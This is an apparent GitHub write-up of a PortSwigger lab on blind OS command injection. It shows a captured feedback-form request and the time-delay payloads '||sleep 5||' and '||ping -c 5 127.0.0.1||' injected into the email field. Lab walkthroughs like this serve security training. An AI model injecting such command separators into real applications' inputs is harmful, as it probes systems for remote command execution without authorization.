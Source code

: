 ## Welcome, my friend. Today we will start the [2. OS Injection lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) in ```portswigger```


# Let's play this lab:

![image](https://github.com/user-attachments/assets/0993dff9-176f-487f-abed-d74b9f1960a4)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/a1669cfe-d5cd-4c70-91ee-15b96ccae0f7)

### Well, we found ```submit feedback``` page , Start Burp suite and intercept the request:

![image](https://github.com/user-attachments/assets/0909605a-55a7-4c18-ab1f-c0280b754dac)

```
csrf=CxkTlU7I6elHRaaUvLLKFimvswZiwlDY&name=mohamed&email=mohamed%40gmail.com&subject=high&message=4
```
 <br>
 
### This ```email``` parameter is vulerable.

### inject os command inside this parameter:

###This is our payload for sleeping or ping 10 sec:

```
||sleep 5||
||ping -c 5 127.0.0.1|||
```

### inject email field:

```
email=mohamed%40gmail.com||sleep 5||
```

https://github.com/user-attachments/assets/d767e94a-711e-4362-8c18-d387b459c165


![image](https://github.com/user-attachments/assets/a9718e58-6e9e-4b41-9a85-6bf497a1f9d3)


Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>
